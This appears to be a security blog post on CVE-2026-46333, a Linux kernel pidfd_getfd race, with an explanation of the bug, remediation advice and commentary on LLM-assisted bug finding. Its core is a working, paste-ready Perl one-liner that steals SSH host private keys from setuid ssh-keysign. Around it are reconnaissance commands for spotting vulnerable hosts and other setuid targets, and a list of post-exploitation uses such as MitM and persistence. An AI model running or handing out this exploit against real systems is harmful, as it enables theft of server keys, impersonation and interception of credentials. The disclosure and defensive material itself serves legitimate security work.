

Four critical Linux kernel privilege escalation vulnerabilities in three weeks. [Copy.Fail](https://copy.fail/) (CVE-2026-31431, April 29), [Dirty Frag](https://github.com/V4bel/dirtyfrag) (CVE-2026-43284, May 8), [Fragnesia](https://v12security.com/fragnesia/) (CVE-2026-46300, May 13), and now [CVE-2026-46333](https://github.com/advisories/GHSA-pm8f-4p6p-6x53) (May 15). This is the new normal.

I spent Monday looking at CVE-2026-46333 after seeing Qualys's advisory. The bug is in `pidfd_getfd(2)` -- a NULL pointer dereference in the ptrace dumpable check that lets any unprivileged user duplicate file descriptors from a setuid process during `exec`. The practical impact: steal SSH host private keys from `ssh-keysign` in under 10 seconds.

The [Copy.Fail](https://copy.fail/) disclosure inspired the format here -- they shipped a 732-byte Python root exploit. I used [OpenCode](https://opencode.ai) to code-golf the ssh-keysign key stealer down to 235 bytes of Perl.

## The Bug

`pidfd_getfd(2)` duplicates a file descriptor from another process. The kernel guards this with a `ptrace` permission check that calls `get_dumpable()`, which reads flags from the target's `mm` (memory descriptor) -- the kernel struct that represents a process's entire virtual address space. The `dumpable` flag on the `mm` controls whether unprivileged users can ptrace the process. When a setuid binary runs, the kernel sets this to `SUID_DUMP_DISABLE` (value `0`) -- meaning "this process has elevated privileges, don't let random users inspect it."

The problem: during `exec(2)` -- the syscall that replaces the current process image with a new program -- there's a window where the old `mm` is torn down and the new one isn't yet installed. `mm` is NULL. `get_dumpable(NULL)` returns `0` -- the same value as `SUID_DUMP_DISABLE`. But the kernel's permission logic interprets `0` as "dumpability check not applicable, fall through to credential checks." Those credential checks pass because the caller's UIDs still match the child's pre-exec state. NULL `mm` accidentally gets the same treatment as a legitimately privileged process.

For a few microseconds after a setuid binary calls exec -- or during `exit(2)` as the process tears down its resources -- anyone can grab its open file descriptors.

Fix: commit `31e62c2ebbfd` ("ptrace: slightly saner 'get_dumpable()' logic"), merged May 13 2026, backported to stable 6.12.89 (May 15).

## The Vulnerable Flow



The race window exists in two places: (1) during exec before the new `mm` is installed, and (2) during exit teardown. The kernel runs `exit_mm()` (freeing the address space) before `exit_files()` (closing file descriptors), creating a window where `mm` is NULL but fds are still live. `ssh-keysign` hits this second case -- it opens the host keys, finds `EnableSSHKeysign` is not set (the default), and exits immediately. The key fds stay open during teardown.

## Why ssh-keysign

It's the perfect target:

1. **Setuid root** on nearly every system with OpenSSH installed
2. **Opens host private keys** (`/etc/ssh/ssh_host_*_key`) as its first action
3. **Exits immediately** when `EnableSSHKeysign` is unset (the default), leaving key fds open during the vulnerable teardown window
4. **Consistent timing** -- the open-then-exit sequence is deterministic

## The 235-Byte Perl Exploit

Paste directly into a shell:

```sh
perl -e '$i=(stat shift)[1];{($c=fork)||do{open 1,">/dev/null";exec@ARGV};$p=syscall(434,$c,0);$p<0&&redo;for(1..3e4){for(3..31){$s=syscall(438,$p,$_,0);$s<0&&next;(stat"/dev/fd/$s")[1]==$i&&do{open H,"<&=$s";print<H>;exit};syscall(3,$s)}}redo}' /etc/ssh/ssh_host_ed25519_key /usr/lib/ssh/ssh-keysign
```

Arguments: target file first, then the setuid binary.

I started with the [public PoC repository](https://github.com/0xdeadbeefnetwork/ssh-keysign-pwn) and created a readable exploit in an interpreted language first, then asked OpenCode to play code-golf with it -- shrink it to the smallest possible Perl one-liner while preserving behavior. Three rounds of back-and-forth got it to 235 bytes.

**What it does:** The exploit repeatedly forks a child that execs the setuid binary, then races to steal its file descriptors before the process finishes dying. It gets a stable handle to the child via `pidfd_open(2)`, then hammers `pidfd_getfd(2)` across fd numbers 3-31, 30,000 times per fork round, trying to catch the window where `mm` is NULL. When it duplicates an fd, it checks whether the underlying file matches the target (by comparing inodes via `/dev/fd/`). If it matches -- we have the key. Seek to the beginning, read, print to stdout.

**Why it works:** The race window is narrow (microseconds) but the polling loop is fast enough that within 20-50 rounds of fork+probe, it consistently lands inside the window. Most attempts fail with `ESRCH` (process already gone) or `EPERM` (check fired correctly), but one success is all you need.

On vulnerable kernels (tested on 5.15.0-173 and 6.18.17), it typically finishes in under 10 seconds.

## Finding Targets

All of this requires only an unprivileged shell.

**1. Is the kernel vulnerable?**

```sh
uname -r
```

Anything before 6.12.89 / 6.17.0-29 / 7.0.0-15 is vulnerable. Ubuntu 20.04 (5.15.0-173) is still unpatched as of today.

**2. Is `ssh-keysign` setuid?**

```sh
ls -la /usr/lib/ssh/ssh-keysign /usr/lib/openssh/ssh-keysign /usr/libexec/openssh/ssh-keysign 2>/dev/null
```

Look for `-rwsr-xr-x root root`. The `s` in owner-execute is the setuid bit.

**3. Other setuid binaries that open privileged files during exec:**

```sh
find / -xdev -perm -4000 -type f 2>/dev/null
```

Any program that opens a root-owned file before dropping privileges is a candidate:
- `passwd` / `chage` -- opens `/etc/shadow`
- `sudo` -- opens policy files
- `pkexec` -- opens polkit configuration

`ssh-keysign` is the most reliable because its timing is perfectly consistent.

## What You Can Do With a Stolen Host Key

The host private key is the server's identity. With it:

- **MitM SSH sessions** -- impersonate the server to connecting clients. Combined with ARP spoofing or DNS hijacking on the local network, you intercept credentials and session data.
- **Host-based authentication abuse** -- if any system trusts this host via `.shosts`, `hosts.equiv`, or `HostbasedAuthentication yes`, you can authenticate as any user on those systems.
- **Cloud/CI identity theft** -- on cloud VMs, Kubernetes nodes, and CI runners, the host key often *is* the machine identity. Stealing it lets you impersonate the node to orchestration systems.
- **Persist across key rotation** -- if you steal the key before an admin notices, you maintain access even if your initial foothold (the shell) is revoked.

## The LLM Moment in Kernel Security

This vulnerability sits in a wave that started with Copy.Fail on April 29. Of the four kernel roots this month, only Copy.Fail has explicit first-party AI attribution -- Theori's [Xint Code](https://xint.io/) [found it](https://copy.fail/) in about an hour of scanning the `crypto/` subsystem. Fragnesia was [listed](https://oecd.ai/en/incidents/2026-05-12-308f) in the OECD AI Incidents Monitor as involving Claude Mythos, OpenAI Daybreak, and V12's AI agent -- though V12 Security hasn't confirmed this directly. Dirty Frag and CVE-2026-46333 have no public AI claims.

That said, I'd speculate most or all of these were found with at least some LLM assistance. The tooling is now good enough and ubiquitous enough that *not* using it for source code review is leaving performance on the table. Anthropic's [Claude Mythos Preview](https://www.anthropic.com/research/glasswing) reportedly has 500+ zero-days across OSS. OpenAI's [GPT-5.5-Cyber](https://openai.com/index/daybreak/) is deployed to vetted defenders. Theori's Xint Code openly markets itself on AI-found kernel bugs. Even researchers who don't specifically credit AI are almost certainly using LLMs for pattern-matching, variant analysis, and hypothesis generation during their review process.

Linus Torvalds [commented this week](https://lkml.org/lkml/2026/5/17/896) that the "continued flood of AI reports has basically made the security list almost entirely unmanageable, with enormous duplication due to different people finding the same things with the same tools." He's pushing for AI-found bugs to be disclosed publicly rather than through the private security list, and asking reporters to "create a patch too, and add some real value on top of what the AI did."

On the offensive side, LLMs are equally useful for writing payloads. The 235-byte Perl exploit here came out of asking an LLM to code-golf a working implementation -- something that would have taken me much longer to hand-optimize. Copy.Fail's 732-byte Python exploit is similarly compact. When the tooling can both *find* the bug and help *minimize the exploit*, the bar for "theoretically exploitable" disappears fast.

## Remediation

- **Patch the kernel** -- `31e62c2ebbfd` or any distro kernel >= 6.12.89 / 6.17.0-29 / 7.0.0-15
- **`kernel.yama.ptrace_scope = 2`** -- restricts `pidfd_getfd` to admin-only (breaks debuggers)
- **Strip setuid from `ssh-keysign`** -- `chmod u-s /usr/lib/ssh/ssh-keysign` (breaks host-based auth, which you probably don't use)
- **Rotate host keys** if you suspect exploitation -- check for unusual `pidfd_open`/`pidfd_getfd` patterns in audit logs
